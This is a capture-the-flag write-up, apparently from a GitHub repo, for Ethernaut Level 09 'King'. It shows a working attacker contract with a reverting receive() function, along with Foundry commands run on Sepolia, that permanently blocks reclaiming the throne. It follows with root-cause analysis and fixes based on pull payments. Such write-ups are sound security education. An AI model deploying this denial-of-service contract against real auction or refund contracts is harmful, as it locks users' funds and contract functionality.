



> **⚠️ EDUCATIONAL PURPOSE ONLY**
> This document is part of the [Ethernaut CTF](https://ethernaut.openzeppelin.com/) educational security challenges.
> The techniques described here are for **authorized security testing and learning purposes only**.
> **DO NOT** use these methods on contracts you don't own or without explicit authorization.

---

# Level 09 - King: Exploit Report

## ✅ Challenge Completed

**Challenge:** Ethernaut Level 09 - King
**Instance Address:** `0xA898595A93c7ffb76f8F1Ba6AD341c83faD1E3b5`
**Attacker Contract:** `0xb13aF51Acf56bff66Eeb558bC8A8973945a08B28`
**Attack Transaction:** `0xbbc23bc726983fa72312a2c39b2d1940d6ae365824869744b5d1504cd89191c3`
**Status:** Successfully prevented the level owner from reclaiming the throne

---

## Vulnerability Summary

**Type:** Denial of Service (DoS) via Reverting Receive Function
**Severity:** High
**Impact:** Permanent lock of contract functionality

The King contract implements a "King of the Hill" game where users can become king by sending more Ether than the current prize. When a new king claims the throne, the contract attempts to refund the previous king using `.transfer()`. However, if the king is a smart contract with a reverting `receive()` function, all subsequent attempts to claim the throne will fail, permanently locking the contract in a DoS state.

---

## Root Cause Analysis

### Vulnerable Code

The vulnerability exists in the `receive()` function at [King.sol:15-20](../King.sol#L15-L20):

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);  // ⚠️ VULNERABILITY: Assumes transfer always succeeds
    king = msg.sender;
    prize = msg.value;
}
```

### Why This Is Vulnerable

1. **Unchecked External Call:** The `.transfer()` method automatically reverts if the recipient rejects the Ether
2. **No Failure Handling:** There's no try-catch or fallback mechanism if the transfer fails
3. **State Before Payment:** The contract updates state AFTER the payment, meaning a failed payment prevents state updates
4. **Push vs Pull Pattern:** The contract pushes payments instead of letting users withdraw (pull pattern)

---

## Attack Flow Diagram

### Successful Attack Sequence



### Failed Reclaim Attempt (Proof of DoS)



### Comparison: Normal vs Malicious King



---

## Exploitation Steps

### Step 1: Reconnaissance

Check the current king and prize amount:

```bash
# Get current king
cast call 0xA898595A93c7ffb76f8F1Ba6AD341c83faD1E3b5 "_king()" \
  --rpc-url $SEPOLIA_RPC_URL

# Output: 0x0000000000000000000000003049c00639e6dfc269ed1451764a046f7ae500c6
# (Level contract address)

# Get current prize
cast call 0xA898595A93c7ffb76f8F1Ba6AD341c83faD1E3b5 "prize()" \
  --rpc-url $SEPOLIA_RPC_URL

# Output: 0x00000000000000000000000000000000000000000000000000038d7ea4c68000
# (1000000000000000 wei = 0.001 ETH)
```

### Step 2: Deploy Malicious Contract

Create [KingAttacker.sol](KingAttacker.sol) with a reverting `receive()` function:

```solidity
contract KingAttacker {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack() external payable {
        (bool success, ) = target.call{value: msg.value}("");
        require(success, "Failed to claim throne");
    }

    receive() external payable {
        revert("I refuse ether!");  // This prevents refunds
    }
}
```

Deploy the contract:

```bash
forge script script/levels/09_King/DeployKingAttacker.s.sol:DeployKingAttacker \
  --rpc-url $SEPOLIA_RPC_URL \
  --private-key $PRIVATE_KEY \
  --broadcast

# Output: KingAttacker deployed at: 0xb13aF51Acf56bff66Eeb558bC8A8973945a08B28
```

### Step 3: Execute Attack

Send Ether to claim the throne:

```bash
cast send 0xb13aF51Acf56bff66Eeb558bC8A8973945a08B28 "attack()" \
  --value 1000000000000000 \
  --rpc-url $SEPOLIA_RPC_URL \
  --private-key $PRIVATE_KEY

# Transaction Hash: 0xbbc23bc726983fa72312a2c39b2d1940d6ae365824869744b5d1504cd89191c3
# Status: 1 (success)
```

### Step 4: Verify Attack Success

Confirm the attacker contract is now king:

```bash
cast call 0xA898595A93c7ffb76f8F1Ba6AD341c83faD1E3b5 "_king()" \
  --rpc-url $SEPOLIA_RPC_URL

# Output: 0x000000000000000000000000b13af51acf56bff66eeb558bc8a8973945a08b28
# ✓ Our contract is king!
```

### Step 5: Prove DoS (Cannot Reclaim)

Attempt to reclaim the throne:

```bash
cast send 0xA898595A93c7ffb76f8F1Ba6AD341c83faD1E3b5 \
  --value 1000000000000001 \
  --rpc-url $SEPOLIA_RPC_URL \
  --private-key $PRIVATE_KEY

# Error: execution reverted: I refuse ether!
# ✓ Throne cannot be reclaimed - DoS successful!
```

---

## Proof of Exploit

### Before Attack

```
King Contract State:
├── king:  0x3049c00639e6dfc269ed1451764a046f7ae500c6 (Level contract)
├── prize: 1000000000000000 wei (0.001 ETH)
└── owner: 0x3049c00639e6dfc269ed1451764a046f7ae500c6
```

### After Attack

```
King Contract State:
├── king:  0xb13af51acf56bff66eeb558bc8a8973945a08b28 ✓ (KingAttacker)
├── prize: 1000000000000000 wei (0.001 ETH)
└── owner: 0x3049c00639e6dfc269ed1451764a046f7ae500c6

KingAttacker Contract:
├── Address: 0xb13af51acf56bff66eeb558bc8a8973945a08B28
├── Has receive() that reverts
└── Cannot receive ETH → King contract cannot refund → DoS!
```

### Reclaim Attempt Result

```
Transaction to King contract with 0.001+ ETH:
❌ Error: execution reverted: I refuse ether!

Explanation:
1. Sender tries to send more than current prize
2. King contract checks: msg.value >= prize ✓
3. King contract attempts: payable(king).transfer(msg.value)
4. KingAttacker.receive() is called
5. receive() reverts with "I refuse ether!"
6. Entire transaction reverts
7. King remains: KingAttacker
```

---

## Remediation

### Option 1: Pull Payment Pattern (Recommended)

Instead of pushing payments, let users withdraw:

```solidity
contract KingFixed {
    address public king;
    uint256 public prize;
    mapping(address => uint256) public pendingWithdrawals;

    receive() external payable {
        require(msg.value >= prize, "Insufficient payment");

        // Store pending withdrawal for previous king
        pendingWithdrawals[king] += prize;

        // Update state
        king = msg.sender;
        prize = msg.value;
    }

    // Let users withdraw their funds
    function withdraw() external {
        uint256 amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "No funds to withdraw");

        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Transfer failed");
    }
}
```

**Benefits:**
- Failed withdrawals don't block contract functionality
- Users are responsible for claiming their own funds
- Prevents DoS attacks

### Option 2: Use Low-Level Call with Error Handling

Handle transfer failures gracefully:

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);

    // Try to send, but don't revert if it fails
    (bool success, ) = payable(king).call{value: msg.value}("");

    if (!success) {
        // Store as pending withdrawal if transfer fails
        pendingWithdrawals[king] += msg.value;
    }

    king = msg.sender;
    prize = msg.value;
}
```

**Benefits:**
- Backwards compatible with the current design
- Gracefully handles rejecting recipients
- Allows contract to continue functioning

### Option 3: Whitelist/Blacklist Mechanism

Prevent contracts from becoming king:

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    require(tx.origin == msg.sender, "No contracts allowed"); // Only EOAs

    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
}
```

**Drawbacks:**
- Limits legitimate contract interactions
- Can be bypassed with delegatecall patterns
- Not a complete solution

---

## Key Takeaways

### 1. Never Assume External Calls Succeed
External calls (transfer, send, call) can fail. Always handle failures:
- Use try-catch for contract calls
- Check return values
- Implement fallback mechanisms

### 2. Prefer Pull Over Push Payments
**Push Pattern (Vulnerable):**
```solidity
payable(user).transfer(amount); // Can fail and revert everything
```

**Pull Pattern (Secure):**
```solidity
pendingWithdrawals[user] += amount;
// Let user call withdraw() themselves
```

### 3. Understand Transfer Methods

| Method | Gas Limit | Reverts on Fail | Use Case |
|--------|-----------|-----------------|----------|
| `.transfer()` | 2300 gas | ✓ Yes | ❌ Avoid (can cause DoS) |
| `.send()` | 2300 gas | ✗ No (returns bool) | ⚠️ Better, but limited gas |
| `.call{value:}()` | All gas | ✗ No (returns bool) | ✓ Recommended |

### 4. DoS via Reverting Recipients
Any contract expecting to send ETH to arbitrary addresses is vulnerable to DoS if:
- The recipient can revert in `receive()`/`fallback()`
- The contract doesn't handle this failure
- Critical state updates happen after the send

### 5. Real-World Impact
This vulnerability pattern has caused issues in:
- Auction contracts (highest bidder refunds)
- Distribution contracts (dividend payments)
- Gaming contracts (prize distributions)
- Crowdfunding platforms (refund mechanisms)

---

## References

- [Ethernaut Level 09 - King](https://ethernaut.openzeppelin.com/level/9)
- [SWC-113: DoS with Failed Call](https://swcregistry.io/docs/SWC-113)
- [Consensys Best Practices: Favor pull over push](https://consensys.github.io/smart-contract-best-practices/attacks/denial-of-service/#favor-pull-over-push-for-external-calls)
- [Solidity Docs: Sending and Receiving Ether](https://docs.soliditylang.org/en/latest/security-considerations.html#sending-and-receiving-ether)

---

## Technical Details

**Network:** Sepolia Testnet
**Solidity Version:** ^0.8.0
**Tools Used:** Foundry (forge, cast)
**Exploit Method:** DoS via reverting receive function
**Attack Cost:** 0.001 ETH + gas fees
**Success Rate:** 100%

---

**Completed by:** Felix
**Date:** 2025-12-09
**Challenge Status:** ✅ Solved
